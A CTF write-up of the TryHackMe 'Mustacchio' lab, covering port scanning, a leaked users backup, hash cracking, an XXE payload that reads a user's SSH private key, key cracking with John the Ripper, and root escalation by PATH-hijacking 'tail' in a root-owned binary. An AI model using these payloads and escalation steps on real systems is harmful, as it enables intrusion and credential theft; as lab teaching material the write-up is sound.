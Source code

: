 ```yaml
---
layout: post
title: TryHackMe/Easy/Mustacchio
abbrlink: 84c3275fd5754250a493d56f45d20d9d
tags:
  - xml
  - web
  - linux
  - xxe
categories:
  - Labs
  - TryHackMe
  - 1. Easy
  - Mustacchio
date: 1722050132214
updated: 1722071866927
---
```


<https://tryhackme.com/r/room/mustacchio>

# Enumeration

## \[+] 10.10.165.54 - mustacchio.thm

We will add the target IP address and a domain name to our `/etc/hosts` file. Using `sudo sh -c`, executes the entire command as a subshell as `root` where we will then use `echo` to create a new line with `\n` followed by our target IP and the domain name we give it.

```sh
sudo sh -c 'echo "\n10.10.165.54 mustacchio.thm" >> /etc/hosts'
```

Then `export` the IP address to the environment variable `RHOSTS` so I can use `$RHOSTS` instead of typing the IP address every time.

```sh
export RHOSTS=10.10.165.54
```

First I run a quick scan with [rustscan](https://github.com/RustScan/RustScan) and a longer [nmap](https://nmap.org/) stealth scan with `-Pn` mode enabled which will treat all hosts as online which helps find other hosts that block ICMP packets:

```sh
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

## \[+] Port 80 - HTTP

Let's start by fuzzing for directories/files using [feroxbuster](https://github.com/epi052/feroxbuster) with this [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-medium-directories.txt):

```sh
feroxbuster -u http://mustacchio.thm/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x json,txt,js,xml -s 200,301,302,403 -o p-80-www-ferox.txt
```

After some time, we will find a file with the credentials for the user `admin`:

![8d41225ccc67fab5de402a0d3ad80952.png](/resources/ffde71d0a6ca4921aab48f536f9456bd.png)

```sh
wget http://mustacchio.thm/custom/js/users.bak
cat users.bak
```

![3b6612234997dbc41eb43ae21b90e276.png](/resources/840efcd32b2b420998efb6e0bf8a9a37.png)

![5914ca3edbe890a27ab66c0f0383e72b.png](/resources/f286c0b8249348dcb4243ed5876f5199.png)

## \[+] Port 8765 - HTTP

On this port we will find a login portal for the administration backend:

![611e6f2713c8dd44a03a14a2debfb85b.png](/resources/1815fcbdc95443cd81251500d0b1a6e6.png)

Before we can use the credentials we found, we have to decode the password since it seems to be hashed. We can use a website like [CrackStation](https://crackstation.net/) to see if there is a plaintext version of this hash. Copy and paste the hashed password, do the captcha and click the "Crack Hashes" button. The plaintext will be in the result column if it is available:

![00bbc1168d57573123123dfb775dda6e.png](/resources/eaef2052334b4d159c8ecdd1e5fb3fd2.png)

After logging in, we access a function which allows us to input a comment on the website:

![2deb9db513b058946f4fd000573bda36.png](/resources/c644ab4d5ee8411c9c82d242308dddf5.png)

Testing the function with some input and clicking the "Submit" button creates a "Comment Preview" but our test string is not reflected anywhere:

![065bf413b607a1b66ca0d77353a16c22.png](/resources/556a4d9f197b48b381ec13951444f95b.png)

Let's check the website's source code to see if we can find anything more about this function. Right-click on the page then click "VIew Page Source" or pressing `CTRL+U` will bring up the source code.

On lines 10-18 we will find the code for the comment function and a note left by the developer on line 22:

![01abe546f512ec6b8e0d325e462598d7.png](/resources/b036250ad5ed4ce38f8963248c08a129.png)

We will have to enter our comment in [XML syntax](https://www.w3schools.com/XML/xml_syntax.asp) with the fields, `name`, `author` and `comment`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
	<author>test</author>
	<name>test</name>
	<comment>test</comment>
</root>
```

![67aa3fe9fbc2bb85eb3e3da5216738c2.png](/resources/ce07480aff774c5e837a96d0ad477b30.png)

# Initial Foothold

### \[-] barry\@mustacchio

Now that we know how the function works and that it accepts XML input and reflects the results in the webpage, we can check if it is vulnerable to [XML External Entity](https://portswigger.net/web-security/xxe) injection where we can use XML to read local files, like `/home/barry/.ssh/id_rsa` for example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<root>
	<author>&xxe;</author>
</root>
```

![d1f9c6852ff839d778a660ae14f28412.png](/resources/e6ee9a5ff09543ad86d9fedb61befdee.png)

We can get a clean formatting of the SSH key in the source code:

![5706cdd7185c5f7686e87857da02db48.png](/resources/0ecf5c5a60784ceb86805f725b019151.png)

Copy and paste the SSH key starting from:

```plaintext
-----BEGIN RSA PRIVATE KEY-----
```

and ending with:

```plaintext
-----END RSA PRIVATE KEY-----
```

Save the SSH key to a new text file named `barry.key` then run the chmod command to give it proper permissions:

```sh
chmod 600 barry.key
```

If we try to use the key now to connect via SSH, we will be prompted for a password. We will first have to crack the key using [John the Ripper](https://www.openwall.com/john/). To format the key to use with JtR, we have to use the ssh2john tool:

```sh
ssh2john barry.key > barry.john
```

Then use JtR:

```sh
john --wordlist=/usr/share/wordlists/rockyou.txt barry.john
```

![2b2b3138a47bcdc4abb462bb2a9daaaa.png](/resources/f581bcdd33fd48b2a7cec926d221abfe.png)

## Port 22 - SSH

Let's use the key we just cracked to login via SSH with the ssh command and the `-i` flag to specify the key file to use and enter the password when prompted:

```sh
ssh -i barry.key barry@$RHOSTS
```

![660a8aa083a585d485a6a3b9eb3ab304.png](/resources/533104818d624145a16a6331f59e6e0d.png)

We can find the user flag in `/home/barry/user.txt`:

```sh
ls -lah
cat user.txt
```

![e7c8deb9327154cc477fd2b33718fe02.png](/resources/df9531b560a44548a8f5d825b29daa95.png)

# Privilege Escalation

### \[-] root\@mustacchio

After some enumeration, we will find a binary in `/home/joe/` named `live_log`:

```sh
cd /home/joe
ls -lah
```

![7e7db064027e23b91959ea3d25c06447.png](/resources/6a97a43401d54888beeeb7850a27d5fb.png)

Using the [strings](https://linux.die.net/man/1/strings) command, we can print only the human-readable strings within this binary where we will find a binary without the full path:

```sh
strings live_log
```

![3577945f9bdcd3a17664f4aa53af9771.png](/resources/dcdf500a348946799dbe4ab4b1a8ba9d.png)

When a binary is called withouth the full path in Linux, any binary with the same name will be called if it is "nearest" to the binary that called it. This is called Hijack Execution flow and is explained in detail in [this Mitre article](https://attack.mitre.org/techniques/T1574/007/).

To exploit this, we will first change the `PATH` environment variable to a directory that we can write to using the `export` command, and `echo` the `$PATH` variable to see it point to the `/home/barry` directory:

```sh
cd /home/barry
export PATH=$PWD:$PATH
echo $PATH
```

![1b2ba8e8d13477692b13eb46915bf357.png](/resources/bb738e3cecc64431ae99fc2ed0574726.png)

Now, when we create a binary named `tail` in this directory, it will be used instead of the one in `/usr/bin/`. Using the [nano](https://linux.die.net/man/1/nano) text editor we can create a binary written in Python to create a bash shell. Since the `live_log` binary is owned by the root user, the bash shell is also being ran by the root user which will effectively make us `root`:

```
#!/usr/bin/python3
import pty
pty.spawn("/bin/bash")
```

![dddcc767973f8501570fcdabeac1984e.png](/resources/1503a7f4e5c34e838610cb1ecdf0d32f.png)

Then, press `CTRL+X` and enter `Y` to save. Back in bash, we will use the `chmod` command along with the `+x` flag to make the binary executable and run the `/home/joe/live_log` binary to gain root:

```sh
chmod +x tail
/home/joe/live_log
id
```

![a460d2ad1c06eca12c865de68e976ab8.png](/resources/486c6d1950764465bbf085474174f946.png)

We can find the root flag in `/root/root.txt`:

```sh
cat /root/root.txt
```

![e5f7aed3154277c3d0becb49afc6f7ee.png](/resources/86ceeb0a03a34fb6b2e2fd042e0c879f.png)
